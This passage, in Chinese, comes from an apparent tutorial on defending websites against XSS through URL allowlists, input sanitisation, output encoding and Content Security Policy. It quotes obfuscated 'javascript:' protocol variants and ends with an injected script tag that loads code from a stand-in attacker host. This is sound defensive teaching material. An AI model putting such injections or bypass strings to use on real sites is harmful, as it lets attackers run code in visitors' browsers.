 与之前的禁止清单例子相反，允许清单的例子是允许用户提交只包含 http:和 https: 协议的自定义 URL，不包含其他内容。如果 URL 使用协议 `javascript:`，即使它以 "Javascript: "或"&#106;vascript: "的形式出现,这种方法都会自动将它标记为无效。

允许清单比禁止清单有两个优点：

- **简单**：准确地描述一组安全字符串通常比识别所有恶意字符串的集合要容易得多。这在常见的情况下尤其如此，在这种情况下，用户输入的内容只需要包括浏览器中非常有限的功能子集。例如，上面描述的允许清单只允许带有 http:或 https:协议的 URL 是非常简单的，在大多数情况下完全可以满足用户的需求。

- **稳定**:与禁止清单不同，允许清单一般不会在浏览器添加新功能时变得过时。例如，一个只允许 HTML 元素上的 title 属性的 HTML 验证白名单，即使是在 HTML5 onmousewheel 属性引入之前开发的，也会保持安全。

### 结果鉴定

将输入标记为无效后，可以采取以下两种操作之一：

- **拒绝**：「用户输入」被直接拒绝在网站的页面中展示。
- **消毒**：「用户输入」的无效部分都将被删除，其余的输入将由网站正常使用。

在这两种方法中，拒绝是最简单的实现方法。但"消毒"可以更有用，因为它允许用户输入的范围更广。例如，如果用户提交了一个信用卡号码，那么去除所有非数字字符的消毒例程将防止代码注入，同时允许用户输入带或不带连字符的号码。

## 应该使用哪种技术

编码应该是抵御 XSS 的第一道防线，因为它的目的就是中和数据，使其不能被解释为代码。在某些情况下，编码需要与校验相辅相成，如前所述。这种编码和校验应该是出站的，因为只有当输入被包含在一个页面中时，你才知道要对哪个上下文进行编码和验证。

作为第二道防线，你应该使用入站验证来消毒或拒绝那些明显无效的数据，比如使用 javascript：协议的链接。虽然这本身不能提供完全的安全性，但如果在任何时候由于错误或错误而导致出站编码和验证执行不当，这是一个有用的预防措施。

如果始终如一地使用这两道防线，网站将免受 XSS 攻击。然而，由于创建和维护整个网站的复杂性，仅使用安全输入处理来实现全面保护是很困难的。作为第三道防线，你还应该利用内容安全策略(CSP)，我们将在接下来介绍。

## Content Security Policy (CSP) - 内容安全策略

只使用安全输入处理来保护 XSS 的缺点是，即使是一个安全漏洞也会危及你的网站。最近一个名为内容安全策略（CSP）的网络标准可以减轻这种风险。

CSP 用于限制浏览器查看页面，使其只能使用从可信来源下载的资源。资源是指一个脚本、一个样式表、一个图像或页面引用的其他类型的文件。这意味着，即使攻击者成功地将恶意内容注入到网站中，CSP 也可以防止它被执行。

CSP 有以下几种规则：

- **No untrusted sources**: 外部资源只能从一组明确定义的可信资源中加载。
- **No inline resources**: 内联 JavaScript 和 CSS 不会被执行。
- **No eval**: 不能使用 JavaScript 中的 eval 函数。

### CSP 实战

在下面的示例中， 攻击者成功的注入了恶意代码到页面中。

```html
<html>
  Latest comment:
  <script src="http://attacker/malicious‑script.js"></script>
</html>
```
